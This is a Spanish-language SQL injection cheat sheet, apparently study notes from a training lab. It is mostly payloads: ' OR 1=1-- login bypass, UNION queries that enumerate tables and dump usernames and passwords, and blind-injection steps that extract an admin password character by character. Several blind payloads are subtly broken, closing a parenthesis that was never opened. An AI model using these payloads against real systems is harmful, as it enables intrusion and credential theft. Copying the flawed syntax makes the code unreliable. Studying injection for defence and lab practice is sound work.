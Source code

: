 # SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "bypass"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> *se tiene que hacer iterativo cambiando los campos para saber que tipo son.*

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

'UNION SELECT [columns] FROM information_schema.tables \
'UNION SELECT [columns] FROM information_schema.columns \
'UNION SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

'UNION SELECT [columns] FROM all_tables \
'UNION SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT [columns] FROM [table_name]-- \
' UNION SELECT username, password FROM users--

#### MOSTRAR MULTIPLES VALORES EN UNA MISMA COLUMNA [CONCATENACION]

    NOTA: Importante definir la columna que sea formato string.

~: Separador

**ORACLE: ||** \
ex: 'string'||'string' \
' UNION SELECT username || '~' || password FROM users-- 

**MICROSOFT: +** \
ex: 'string'+'string' 

**POSTGRESQL: ||** \
ex: 'string'||'string' 

**MySQL: [ ] "space"** \
ex: 'string' 'string'

## BLIND SQL INJECTION

    NOTA: importante analizar el comportamiento del site. 

1. validar la vulnerabilidad con una consulta booleana
2. validar existencia de tabla
3. validar campos
4. enumerar el tamano del campo (length)
5. enumerar el contenido de un campo (caracteres)

Validar la existencia de una tabla por medio de una consulta booleana, limitando el resultado para no romper la consulta.

' AND SELECT '[value]' FROM [table_name] LIMIT 1)='[value]'--
' AND SELECT 'admin' FROM users LIMIT 1)='[admin]'--

Una vez con el nombre de la tabla, se puede consultar fields especificos cambiando el query y agregando la funcion WHERE:

' AND SELECT [field] FROM [table_name] WHERE [field]='[value]')='[value]'--
' AND SELECT username FROM users WHERE username='admin')='admin'--

_ENUMERAR EL TAMANO DE UN CAMPO ?

' AND SELECT [field_name] FROM [table_name] WHERE [field_name]='[value]' AND LENGTH(field_name)>1)='value'--
' AND SELECT username FROM users WHERE username='admin' AND LENGTH(password)>1)='admin'--

    NOTA: Es necesario iterar el numero de posicion hasta no tener expected responses, de esa manera se obtiene la cantidad de caracteres.

_COMO ENUMERAR EL CONTENIDO "STRING" DE UN CAMPO ?

--> Funcion SUBSTRING

El primer numero, por ejemplo, "4", es la posicion a iterar. el segundo numero es a una sola posicion.

**Oracle:**	SUBSTR('string', 4, 1) \
**Microsoft:**	SUBSTRING('string', 4, 1) \
**PostgreSQL:**	SUBSTRING('string', 4, 1) \
**MySQL:**	SUBSTRING('string', 4, 1)

' AND SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--

    NOTA: Por ejemplo para iterar una posible contrasena se debe cambiar la posicion y el valor final a igual, 
    en este caso el numero "1" y la letra "a".




